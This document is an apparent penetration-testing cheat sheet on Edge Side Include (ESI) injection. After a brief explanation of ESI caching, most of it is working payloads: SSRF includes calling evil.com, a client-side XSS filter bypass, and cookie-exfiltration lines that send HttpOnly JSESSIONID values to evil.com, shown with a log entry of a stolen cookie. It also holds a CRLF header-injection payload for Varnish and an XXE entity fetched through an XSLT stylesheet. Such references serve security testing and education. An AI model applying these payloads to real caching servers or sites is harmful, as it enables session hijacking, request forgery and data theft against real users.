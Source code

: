 
## POC

**Theory**
The ESI language is based on a small set of XML tags and is used in many popular HTTP surrogate solutions to tackle performance issues by enabling heavy caching of Web content. 
ESI tags are used to instruct a reverse-proxy (or a caching server) to fetch more information about a web page for which a template is already cached. This information may come from another server before serving it to the client. 
This allows fully cached pages to include dynamic content.
One common use case for ESI is serving a largely static page with dynamic pieces of data.

Example's HTML file would look something like this:
```
<body>
  <b>The Weather Website</b>
  Weather for <esi:include src="/weather/name?id=$(QUERY_STRING{city_id})" />
  Monday: <esi:include src="/weather/week/monday?id=$(QUERY_STRING{city_id})" />
  Tuesday: <esi:include src="/weather/week/tuesday?id=$(QUERY_STRING{city_id})" />
[…]
```

### Side Effects of ESI Injections

Server-Side Request Forgery (SSRF)
```
<esi:include src="http://evil.com/ping/" />
```

### Bypass Client-Side XSS Filters
**poc.html**
```
<script>alert(1)</script>
Then, inject ESI tags to include the page:

GET /index.php?msg=<esi:include src="http://evil.com/poc.html" />
The SSRF will fetch the poc.html page and display it in the webpage, adding our payload to the DOM.
```
```
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>
>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

```
![Edge Side Include Injection](https://raw.githubusercontent.com/0xVIC/CheatSheets/master/Cross-site%20scripting/imgs/ESI_Engine_XSS.png)

### Bypass the HttpOnly Cookie Flag

Payload being processed by an ESI engine:
```
<esi:include src="http://evil.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
In the HTTP logs of the server evil.com, the attacker would then see:
```
127.0.0.1 evil.com - [08/Mar/2018:15:20:44 - 0500] "GET /?cookie=bf2fa962b7889ed8869cadaba282 HTTP/1.1" 200 2 "-" "-"
```
This way, HTTPOnly cookies could be exfiltrated without Javascript.

**SQUID3 poc**
```
<esi:include src="http://evil.com/$(HTTP_COOKIE)"/>.
```

**Varnish cache**
```
<esi:include src="http://anything.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>
```

**Akamai ESI Test Server (ETS)**
Extract cookies:
```
<esi:include src="http://evil.com/$(HTTP_COOKIE{'JSESSIONID'})"/>
```
```
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
The xslt file:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
**NodeJS ESI**
```
<esi:include src="http://evil.com/$(HTTP_COOKIE)"/>
```

